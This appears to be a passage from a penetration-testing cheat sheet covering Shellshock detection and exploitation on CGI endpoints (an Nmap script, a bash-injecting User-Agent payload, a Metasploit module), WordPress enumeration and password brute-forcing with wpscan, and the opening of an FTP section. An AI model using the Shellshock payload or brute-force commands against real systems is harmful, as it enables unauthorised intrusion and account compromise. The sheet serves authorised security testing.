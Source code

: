 ## CGI/Shellshock

- Check if vulnerable to shellshock w/Nmap

```
nmap -sV --script=http-shellshock --script-args "http-shellshock.uri=/<NAME>.cgi" <IP>
```

- Manual exploitation
	1. Capture a request to the vulnerable URI
	2. Delete default User-Agent value
	3. Replace User-Agent with `() { :; }; echo; echo; /bin/bash -c '<COMMAND>'`
	4. Send the request

- Metasploit exploitation
	- Remember to set the TARGETURI!

```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```

## WordPress

## wpscan

- Get general information w/wpscan

```
wpscan --url <URL>
```

- Enumerate users w/wpscan

```
wpscan --url <URL> --enumerate u
```

- Brute force users w/wpscan

```
wpscan --url <URL> --usernames <USERNAMES_FILE> --passwords <WORDLIST>
```

<div style="page-break-after: always;"></div>

# FTP
---

## Useful links

1. [HackTricks FTP](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp)

## FTP Anonymous login
